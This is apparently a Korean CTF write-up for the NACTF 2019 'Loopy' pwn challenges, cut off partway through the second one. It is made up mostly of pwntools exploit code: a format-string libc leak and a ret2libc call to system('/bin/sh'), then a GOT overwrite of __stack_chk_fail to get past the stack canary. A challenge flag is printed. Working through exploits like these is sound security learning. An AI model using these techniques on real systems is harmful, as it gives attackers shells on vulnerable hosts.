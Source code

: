 ```python

e = ELF("./loopy-0")
#lib = e.libc
lib = ELF("../libc.so.6")

def doit(payload):
	x.recvuntil("Type something>")
	x.sendline(payload)

# === fsb for libc ===
p = "a"*71 # buf(64) + dummy(8) - 1
p += "%27$p" # __libc_start_main+241 in sfp(4)
p += p32(c_main) # return to main
doit(p)
x.recvuntil("0x")
libc = int(x.recv(8),16) - 241 - lib.symbols['__libc_start_main']
log.info("libc :" +hex(libc))

# === system("/bin/sh") ===
p = "a"*76
p += p32(libc + lib.symbols['system']) # system()
p += "rrrr" # ret
p += p32(libc + next(lib.search("/bin/sh"))) # /bin/sh
doit(p)

x.interactive()
```
## flag
`nactf{jus7_c411_17_4g41n_AnZPLmjm}`

# Loopy #1
```
Same program as Loopy #0, but someone's turned on the stack protector now!

Connect at nc shell.2019.nactf.com 31732
```
## analysis
무척 삽질했던 문제다. NX에 카나리가 걸려있어서 카나리를 알아내보려 했지만 카나리를 알아내도 프로그램이 종료되면서 무의미해져버렸다. `FSB`를 이용해서 `__stack_chk_fail()` 함수에 `got overwrite`를 해서 카나리가 틀렸을 때, 원하는 곳으로 분기하도록 했다. 내 경우에는 `main`으로 분기해서 카나리를 유지한채 다시 입력을 받을 수 있게 했다.
``` python
from pwn import *

#context.log_level = "debug"

e = ELF("./loopy-1")
lib = ELF("../libc.so.6")
#lib = e.libc

x = remote("shell.2019.nactf.com", 31732)
#x = process("./loopy-1")
pause()
main = hex(e.symbols['main'])[2:]
main1 = int("0" + main[:3], 16)
main2 = int(main[3:], 16)

log.info(main)

# === plt overwrite __stack_chk_fail to main  ===
payload = "%{}c%15$hn%{}c%14$hn000".format(main1, main2 - main1)
```